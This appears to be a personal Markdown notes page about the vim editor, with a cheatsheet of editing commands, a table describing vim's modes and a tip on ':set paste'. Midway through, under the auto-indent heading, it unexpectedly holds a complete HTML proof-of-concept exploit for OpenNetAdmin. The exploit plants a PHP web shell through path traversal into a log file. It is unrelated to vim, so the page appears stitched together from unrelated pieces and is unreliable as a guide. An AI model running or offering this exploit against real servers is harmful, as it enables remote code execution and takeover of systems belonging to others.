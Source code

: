 # ⚙️ vi vim

Tags: #⚙️
Related to:
See also:
Previous: [[Getting Started]]

## Description

Vi IMproved, a programmer's text editor

## Cheatsheet

| Command | Description |
|-|-|
| `vim file` | vim: open `file` with vim |
| `esc+i` | vim: enter `insert` mode |
| `esc` | vim: back to `normal` mode |
| `x` | vim: Cut character |
| `dw` | vim: Cut word |
| `dd` | vim: Cut full line |
| `yw` | vim: Copy word |
| `yy` | vim: Copy full line |
| `p` | vim: Paste |
| `:1` | vim: Go to line number 1. |
| `:w` | vim: Write the file 'i.e. save' |
| `:q` | vim: Quit |
| `:q!` | vim: Quit without saving |
| `:wq` | vim: Write and quit |

## Usage Examples

|Mode|Description|
|:----|:----|
|Normal|In normal mode, all inputs are considered as editor commands. So there is no insertion of the entered characters into the editor buffer, as is the case with most other editors. After starting the editor, we are usually in the normal mode.|
|Insert|With a few exceptions, all entered characters are inserted into the buffer.|
|Visual|The visual mode is used to mark a contiguous part of the text, which will be visually highlighted. By positioning the cursor, we change the selected area. The highlighted area can then be edited in various ways, such as deleting, copying, or replacing it.|
|Command|It allows us to enter single-line commands at the bottom of the editor. This can be used for sorting, replacing text sections, or deleting them, for example.|
|Replace|In replace mode, the newly entered text will overwrite existing text characters unless there are no more old characters at the current cursor position. Then the newly entered text will be added.|

### Learn vim

	vimtutor

### Prevent vim auto-indenting

	vim index.hmtl

```
:set paste		// Prevents vim auto-indenting
				// Note: Pasting in insert mode automatically negates vim auto-indenting

:set nopaste	// Reverts to default
```

```
<!-- Proof of concept code for easy exploitation. Run this and then go to -->
<!-- http://URLHERE/ona/dcm.php?module=mandat0ry for your shell! -->

<center>
<head>
<title>0wned Your Network</title>
<script type="text/javascript">
function changeaction()
{
    document.sploit.action = document.getElementById("url").value;
    alert('Remember, your shell must be accessed via
'+document.getElementById("url").value+'?module=mandat0ry');
}
</script>
</head>
<font size="5">OpenNetAdmin RCE Exploit</font><br />
<font size="2"><i>Now with leet button sploiting action! (oooh,
ahhh!)</i></font><br /><br />
<form action="/" method="post" name="sploit" onsubmit="changeaction()" >
URL: <input id="url" value="http://127.0.0.1/ona/dcm.php" size="50" /><br />
PHP Code to Execute: <input type="text" size="50" name="options[desc]"
value="<?php echo shell_exec($_GET[1]) ?>"/> <br />
<input type="hidden" name="module" value="add_module" />
<input type="hidden" name="options[name]" value="mandat0ry" />
<input type="hidden" name="options[file]"
value="../../../../../../../../../../../var/log/ona.log" />
<input type="submit" value="Exploit!" />
</form>
<b><i>Special thanks to: offsec, twitches, funkenstein, zachzor,
av1dmage, drc, arsinh, and the coders for OpenNetAdmin!</i></b>
</center>
```

### Commands

|Command|Description|
|:----|:----|
|x|Cut character|
|dw|Cut word|
|dd|Cut full line|
|yw|Copy word|
|yy|Copy full line|
|p|Paste|
|:1|Go to line number 1.|
|:w|Write the file, save|
|:q|Quit|
|:q!|Quit without saving|
|:wq|Write and quit|

# References

<iframe width="560" height="315" src="https://www.youtube.com/embed/l8iXMgk2nnY" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
